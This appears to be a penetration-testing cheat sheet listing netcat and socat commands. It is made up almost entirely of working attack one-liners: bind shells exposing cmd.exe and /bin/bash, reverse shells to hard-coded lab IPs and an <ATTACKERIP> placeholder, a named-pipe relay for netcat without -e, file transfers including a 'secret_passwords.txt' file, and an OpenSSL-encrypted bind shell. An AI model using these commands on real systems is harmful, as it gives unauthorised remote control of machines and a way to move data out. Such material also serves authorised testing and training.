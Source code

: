 netcat and socat

Transferring files:

~~~bash
nc -nlvp 4444 > incoming.exe

nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
~~~

Binding session to process/executable:

~~~bash
nc -nlvp 4444 -e cmd.exe

nc -nv 10.11.0.22 4444

nc -v -n 10.10.14.32 7777 -e C:\windows\System32\cmd.exe
~~~

Reverse Shell:

~~~bash
nc -nlvp 4444

nc -nv 10.11.0.22 4444 -e /bin/bash
~~~

Netcat Relay (for netcat without -e option)

~~~bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc <ATTACKERIP> <ATTACKERPORT> 1>/tmp/backpipe
~~~

NetCat vs SoCat

~~~bash
nc <remote server's ip address> 80

socat - TCP4:<remote server's ip address>:80
~~~

~~~bash
nc -lvp localhost 443

socat TCP4-LISTEN:443 STDOUT
~~~

SoCat File Transfers

~~~bash
socat TCP4-LISTEN:443,fork file:secret_passwords.txt

socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
~~~

SoCat Reverse Shells

~~~bash
socat -d -d TCP4-LISTEN:443 STDOUT

socat TCP4:10.11.0.22:443 EXEC:/bin/bash
~~~

SoCat Encrypted Bind Shells

~~~bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

cat bind_shell.key bind_shell.crt > bind_shell.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

socat - OPENSSL:10.11.0.4:443,verify=0
~~~

